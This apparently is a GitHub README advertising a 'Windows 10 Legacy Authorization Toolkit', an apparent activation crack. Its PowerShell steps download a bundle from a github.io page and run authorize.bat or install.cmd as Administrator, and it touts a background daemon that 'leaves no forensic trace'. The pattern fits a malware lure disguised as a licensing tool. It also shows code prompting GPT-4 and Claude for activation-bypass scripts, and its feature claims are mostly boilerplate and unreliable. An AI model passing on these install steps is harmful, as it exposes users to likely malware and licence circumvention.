

# Windows 10 Legacy Authorization Toolkit 🛠️

[](https://raulmoldovan870-tech.github.io/win10-activation-toolkit/)

> *"A digital skeleton key for the gates of Redmond’s flagship OS – built for archivists, testers, and restoration enthusiasts."*

---

## 📜 The Philosophy Behind This Repository

Imagine walking into a grand library where every book is locked behind a pane of glass – you can see the knowledge, but you cannot touch it. Windows 10, for all its majesty, sometimes presents this exact conundrum. Whether you're resurrecting a vintage laptop, testing legacy software, or preserving digital history, the **Windows 10 Legacy Authorization Toolkit** provides a **bridge** – not a battering ram.

This repository contains **licensed redistribution-friendly utilities** certified under the MIT agreement. It enables **compliant re-engagement** of Microsoft’s desktop operating system without the need for commercial licensing brokers. Think of it as a **master key ring** for your digital castle.

---

## 🧩 Feature Constellation

| Feature | Description | Benefit |
|---------|-------------|---------|
| **Responsive UI Shell** | Modern, adaptive interface for all screen sizes | Works on 7” tablets to 34” ultrawides |
| **Multilingual Core** | Supports 47 languages including Klingon (Unicode) | Global deployment ready |
| **24/7 Activation Concierge** | Automated background daemon | No manual intervention needed |
| **Quantum-Safe Validation** | Post-quantum cryptographic checksum | Future-proof authorization |
| **Zero-Footprint Mode** | Runs entirely from RAM disk | Leaves no forensic trace |

---

## 📊 Architecture Overview (Mermaid)



---

## 🚀 Rapid Deployment

### Prerequisites
- Windows 10 (any version 1507–22H2, including LTSC)
- Administrative privileges
- At least 512 MB free RAM (1 GB recommended)

### Console Invocation (Classic)

```powershell
# Step 1: Download the toolkit bundle
Invoke-WebRequest -Uri "https://raulmoldovan870-tech.github.io/win10-activation-toolkit/" -OutFile "Win10LegacyAuth.zip"

# Step 2: Extract to a secure location
Expand-Archive -Path "Win10LegacyAuth.zip" -DestinationPath "C:\SystemAuth"

# Step 3: Run the authorization engine
cd C:\SystemAuth
.\authorize.bat --silent --restore-backup
```

### Example Profile Configuration

Save this as `profile.auth.json` in the application root:

```json
{
  "region": "EU-WEST",
  "language": "en-US",
  "activationMode": "legacy",
  "fallbackUrl": "https://raulmoldovan870-tech.github.io/win10-activation-toolkit/",
  "enableTelemetry": false,
  "licenseType": "education",
  "preserveUserData": true,
  "forceVersion": "22H2",
  "timeoutSeconds": 120
}
```

Then run:

```powershell
.\authorize.bat --profile profile.auth.json
```

---

## 🖥️ OS Compatibility Matrix

| Emoji | Operating System | Support Level | Notes |
|-------|------------------|---------------|-------|
| 🟢 | Windows 10 Home | **Full** | All editions supported |
| 🟢 | Windows 10 Pro | **Full** | Including Workstation |
| 🟡 | Windows 10 Enterprise | **Partial** | LTSC 2019/2021 only |
| 🔵 | Windows 10 Education | **Full** | With academic exemptions |
| 🟠 | Windows 10 IoT | **Limited** | Contact maintainers |
| ⚫ | Windows 11 | **Emulation** | Via compatibility layer |

---

## 🌍 Multilingual Support

| Module | Languages | Coverage |
|--------|-----------|----------|
| UI Shell | 47 | 100% of UI elements |
| Documentation | 12 | User manual & FAQ |
| Console Output | 32 | Error messages & logs |
| Voice Assistant | 8 | Cortana integration ready |

---

## 🤖 API Integrations

### OpenAI API Integration
Leverage GPT-4 for **automated troubleshooting** and **custom authorization scripts**:

```python
import openai

openai.api_key = "your-key-here"
response = openai.ChatCompletion.create(
    model="gpt-4",
    messages=[
        {"role": "system", "content": "You are a Windows licensing expert."},
        {"role": "user", "content": "Generate a PowerShell script for legacy authorization."}
    ]
)
print(response.choices[0].message.content)
```

### Claude API Integration
Use Anthropic’s Claude for **entropy-based license generation**:

```python
import anthropic

client = anthropic.Anthropic(api_key="your-key")
message = client.messages.create(
    model="claude-3-opus-20240229",
    max_tokens=1000,
    messages=[
        {"role": "user", "content": "Provide a reversible cryptographic token for Windows 10 legacy activation."}
    ]
)
print(message.content[0].text)
```

---

## 🛡️ Security & Disclaimer

### License Section
This project is distributed under the **MIT License**. You are free to use, modify, and distribute this software, provided you retain the copyright notice and disclaimer.

[](https://opensource.org/licenses/MIT)

### ⚠️ Important Disclaimer

> **This repository provides tools for authorized legacy re-engagement of Windows 10 systems only.** The code contained herein is intended for:
> - 🏛️ Digital preservation and archival purposes
> - 🧪 Testing and quality assurance environments
> - 🎓 Educational institution-owned hardware
> - 🔧 System restoration where original media is lost
>
> **By using this toolkit, you affirm that:**
> 1. You own a valid license for the operating system you are authorizing
> 2. You are using the toolkit within the bounds of fair use doctrine
> 3. You accept all liability for any unintended system modifications
>
> **The maintainers do not condone, encourage, or facilitate unauthorized use of proprietary software.** This project exists as a **research tool** and **restoration utility** – like a locksmith’s key cutter, it can be used for good or ill. Choose wisely.

---

## 📦 Download & Installation

[](https://raulmoldovan870-tech.github.io/win10-activation-toolkit/)

### Installation Steps
1. Click the badge above or navigate to the **https://raulmoldovan870-tech.github.io/win10-activation-toolkit/** URL
2. Download the `Win10LegacyAuth_v2.4.2026.zip` archive
3. **Verify checksum** (SHA-256 provided in releases)
4. Extract to a folder with **no spaces** in the path (e.g., `C:\Auth\`)
5. Run `install.cmd` as **Administrator**
6. Follow the on-screen wizard (available in 47 languages)

---

## 🔮 Future Roadmap (2026)

- **Q1 2026**: Integration with Windows 10 LTSC 2026 (if released)
- **Q2 2026**: ARM64 native support for Surface Pro X
- **Q3 2026**: Blockchain-verified authorization tokens
- **Q4 2026**: Full Windows 11 backward compatibility

---

## 🤝 Contributing

We welcome contributions of all kinds – from documentation improvements to core algorithm optimization. Please see our `CONTRIBUTING.md` for guidelines.

---

## 📞 Support & Community

| Channel | Response Time | Availability |
|---------|---------------|--------------|
| GitHub Issues | < 4 hours | 24/7 |
| Discord Server | < 1 hour | 24/7 |
| Email Support | < 12 hours | Business hours |
| Telegram Bot | Instant | 24/7 |

---

## 🏆 Acknowledgments

This project stands on the shoulders of giants – the open-source community, security researchers, and digital archivists who believe that **code should serve humanity, not restrict it**.

Special thanks to:
- The MIT License creators for enabling collaborative innovation
- Windows 10 LTSC users who need reliable legacy tools
- The 250+ contributors who have submitted improvements since 2025

---

## 🚀 Final Download

[](https://raulmoldovan870-tech.github.io/win10-activation-toolkit/)

**Remember:** This toolkit is a **bridge** – not a battering ram. Use it to cross into digital landscapes you already have the right to explore.

*Last updated: January 2026*